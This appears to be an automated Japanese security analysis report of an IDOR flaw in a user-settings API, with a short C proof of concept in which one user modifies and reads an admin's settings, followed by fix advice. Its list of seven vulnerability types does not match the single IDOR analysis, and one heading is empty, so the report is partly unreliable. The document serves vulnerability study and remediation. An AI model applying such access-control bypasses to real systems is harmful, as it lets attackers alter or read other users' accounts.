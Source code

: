 # Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `IDOR`
- `AFO`
- `SSRF`
- `XSS`
- `LFI`
- `RCE`
- `SQLI`

## PAR Policy Analysis

## 詳細解析

レイヤー化された認証・認可チェックが存在せず、任意の user_id を指定して他ユーザの設定変更や管理者権限チェック、ユーザ名取得が可能です。具体的には update_setting／is_admin／username の各 API が user_id の存在チェックしか行わず、呼び出し元のユーザ所有権を検証していないため、水平権限昇格につながる IDOR 脆弱性があります。

## PoC（概念実証コード）

```text
#include <stdio.h>
#include <stdbool.h>

extern int create_user_account(bool, const char*);
extern bool update_setting(int, const char*, const char*);
extern bool is_admin(int);
extern const char* username(int);

int main() {
    // 正規ユーザAを作成 => idA
    int idA = create_user_account(false, "userA");
    // 管理者ユーザBを作成 => idB
    int idB = create_user_account(true,  "adminB");

    // ユーザA が idB の権限を更新／参照可能
    bool ok = update_setting(idB, "0", "123");
    printf("update_setting on idB by A: %s\n", ok ? "succeeded" : "failed");
    printf("is_admin(idB): %s\n", is_admin(idB) ? "true" : "false");
    printf("username(idB): %s\n", username(idB));
    return 0;
}
```

## 解析ノート

1. update_setting(), is_admin(), username() が user_id の範囲チェックのみ実施
2. 呼び出し元のユーザ所有権／権限チェックを実装せず水平権限昇格の余地あり
3. IDOR 脆弱性に該当
4. 認可ロジックを導入し、リソース所有者本人か管理者のみ操作許可する必要あり

